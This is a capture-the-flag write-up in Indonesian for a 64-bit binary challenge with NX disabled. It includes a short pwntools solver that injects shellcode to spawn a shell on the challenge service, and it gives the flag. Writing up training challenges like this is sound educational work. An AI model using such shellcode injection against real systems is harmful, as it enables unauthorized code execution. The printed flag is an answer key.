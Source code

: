 # Shellcode 
## SOLUTION 
1. Pada challenge ini diberikan sebuah binary file dengan arsitektur 64 bit dan tidak di strip.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/6423a7a3-79ba-4d31-90bd-b1e72addda3f)


2. Langsung saja kita cek binary protectionnya:

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/33a6c627-48bc-4c42-8efb-16496abb2899)


3. Hal yang unik disini, kali ini NX disabled yang berarti arbitrary code yang kita masukan dapat tereksekusi di stack, dengan demikian kita bisa melakukan shellcode injection.
4. Langsung saja kita decompile file binary untuk mengidentifikasi kerentanan:


> Fungsi main()

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/1d8152e9-7660-45c6-8d7a-cfcf6984e370)


5. Tidak ditemukan adanay bufferoverflow pada fungsi main(), akan tetapi input user diterima ke dalam stack (stdin).

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/661b0313-754a-482b-86e7-cc6169e86fb2)


6. Seharusnya space pada stack cukup untuk memasukan shellcode, daripada mencari shellcode untuk spawn shell melalui website -> shell-storm.org.
7. Saya menggunakan shellcraft.sh() yang tersedia di pwntools.
8. Berikut adalah solver yang saya gunakan:

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

sh.sendlineafter(b':', asm(shellcraft.sh()))
sh.interactive()
```

9. Langsung saja kita test secara lokal:

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/80b9a8a9-2722-4cc8-9255-0091c3584caf)


10. Shell berhasil di dapat, langsung saja kita send script remotely.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/7a3b8740-7800-4c89-b02a-198e8264a90d)


## FLAG -> ForestyHC{first_time_write_ur_own_shellcode?_92fab2}

